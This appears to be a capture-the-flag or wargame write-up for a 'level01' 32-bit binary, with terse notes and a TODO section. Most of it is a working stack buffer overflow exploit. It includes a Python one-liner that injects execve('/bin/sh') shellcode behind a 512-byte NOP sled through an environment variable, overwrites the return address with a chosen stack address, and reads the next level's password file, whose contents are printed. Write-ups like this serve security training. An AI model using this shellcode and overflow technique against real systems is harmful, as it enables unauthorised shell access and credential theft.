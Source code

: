 ### step 1: Decompile with Ghidra

- We get the c source code of the program
- The binary is in 32-bits

```
file level01
level01: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.24, BuildID[sha1]=46d63f92a3bb0a950cf71dd3a5a630ade86057ab, not stripped
```

### step 2: Code analysis

TODO

Enter Username: dat_will

( python -c 'print("dat_will")' ; python -c 'print("A" * 79)') | ./level01

deuxième input segfault au 80eme char


env -i SHELLCODE=$(python -c 'print("\x90" * 512 + "\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh")') gdb level01


Our nopesled spans from 0xffffddae to 0xffffdfae, so we target the middle 0xffffdeae.

0xffffdeae => little endian \xae\xde\xff\xff


( python -c 'print("dat_will")' ; python -c 'print("A" * 80 + "\xae\xde\xff\xff")' ; cat ) | env -i SHELLCODE=$(python -c 'print("\x90" * 512 + "\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh")') ./level01

cat /home/users/level02/.pass
PwBLgNa8p8MTKW57S7zxVAQCxnCpV8JqTTs9XEBv